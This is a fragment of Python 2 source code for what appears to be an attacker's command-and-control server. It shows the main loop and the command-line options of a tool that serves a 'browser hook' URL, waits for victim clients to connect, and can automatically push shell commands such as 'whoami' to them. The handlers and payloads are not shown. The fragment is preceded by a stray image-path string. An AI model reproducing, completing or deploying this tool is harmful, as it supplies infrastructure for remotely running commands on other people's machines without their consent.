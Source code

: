 
def main():
  """ 
      Establish our base web server and initiate the event loop to drive things
      1 - Overrides custom handler path for URL to initiate things
      2 - Binds socket to ip and port, and then maps to our custom handler
      3 - Starts endless event loop & pass off for myHandler to handle requests
  """
  try:
    print
    global httpd
    if options.cmd in args:
    	SendCMDHandler.js_load_path = srv_url
    	httpd = SocketServer.TCPServer((bind_ip, listener_port),SendCMDHandler)
    else:
    	myHandler.js_load_path = srv_url
    	httpd = SocketServer.TCPServer((bind_ip, listener_port), myHandler)
    status("Web Server Started on Port: %d" % listener_port)
    status("Awaiting Client Connection to: http://%s:%s%s" % (bind_ip, listener_port, srv_url))
    status("Client Command at: http://%s:%s/wtf" % (bind_ip, listener_port))
    status("Browser Hook Set at: http://%s:%s/hook\n" % (bind_ip, listener_port))
    caution("Hit CTRL+C to Stop the Server at any time...\n")
    httpd.serve_forever()
  except socket.error, e:
    error('Try again in 30 seconds or so...')
    pad()  
    bad('Socket Error:\n\t%s\n' % e)
  except KeyboardInterrupt:
    print ''
    error("CTRL+C Interupt Detected!")
    bad("Shutting Down Web Server...\n")
    httpd.shutdown



# Parse Arguments/Options
parser = optparse.OptionParser(banner(), version="%prog v0.01")
parser.add_option("-i", "--ip", dest="ip", default=None, type="string", help="IP to Bind Server to (i.e. 192.168.0.69)")
parser.add_option("-p", "--port", dest="port", default=None, type="int", help="Port to Run Server on")
parser.add_option("-u", "--url", dest="url", default="/connect", type="string", help="URL to Initiate Client Connection (default: /connect)")
parser.add_option("-f", "--find-ip", action="count", default=0, dest="fip", help="Display Current Internal and External IP Addresses")
parser.add_option("-c", "--command", default="whoami", type="string", dest="cmd", help="auto Send command to client (No interaction)")
parser.add_option("-v", action="count", default=0, dest="verbose", help="Enable Verbose Output")
(options, args) = parser.parse_args()

# Make sure we got necessary arguments
args = sys.argv[1:]
if not args:
  print ""
  parser.print_help()
  print
  sys.exit()
